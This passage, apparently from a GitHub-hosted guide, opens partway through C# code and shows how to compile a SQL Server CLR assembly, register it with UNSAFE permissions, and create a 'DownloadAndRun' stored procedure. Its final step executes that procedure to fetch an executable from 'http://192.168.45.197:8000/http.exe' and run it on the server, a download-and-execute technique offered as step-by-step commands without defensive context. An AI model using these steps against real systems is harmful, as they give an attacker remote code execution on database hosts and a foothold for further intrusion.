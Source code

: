 ```csharp
        catch (Exception ex)
        {
            SqlContext.Pipe.Send("Error: " + ex.Message);
        }
    }
}
```

#### **3. Compile the C# Code into a DLL**

You can compile the C# code using Visual Studio or the .NET CLI.

**Using the .NET CLI:**

```bash
csc /target:library /out:FileDownloader.dll FileDownloader.cs
```

This will generate a `FileDownloader.dll` file.

#### **4. Deploy the Assembly to SQL Server**

After compiling the C# code into a DLL, you need to deploy it to SQL Server.

```sql
-- Enable CLR (if not done already)
EXEC sp_configure 'clr enabled', 1;
RECONFIGURE;

-- Create the assembly in SQL Server
CREATE ASSEMBLY FileDownloader 
FROM 'C:\Path\To\Your\FileDownloader.dll' 
WITH PERMISSION_SET = UNSAFE;

-- Create the stored procedure
CREATE PROCEDURE DownloadAndRun
    @url NVARCHAR(4000),
    @filePath NVARCHAR(4000)
AS EXTERNAL NAME FileDownloader.FileDownloader.DownloadAndRun;
GO
```

Make sure to replace `'C:\Path\To\Your\FileDownloader.dll'` with the actual path to your DLL.

**Note**: The assembly is created with `PERMISSION_SET = UNSAFE` because the code interacts with the file system and executes external processes, which requires elevated permissions.

#### **5. Execute the CLR Stored Procedure**

Now, you can execute the `DownloadAndRun` stored procedure to download the file from the specified URL and execute it:

```sql
DECLARE @url NVARCHAR(4000) = 'http://192.168.45.197:8000/http.exe';
DECLARE @filePath NVARCHAR(4000) = 'C:\Temp\http.exe';

EXEC DownloadAndRun @url, @filePath;
```
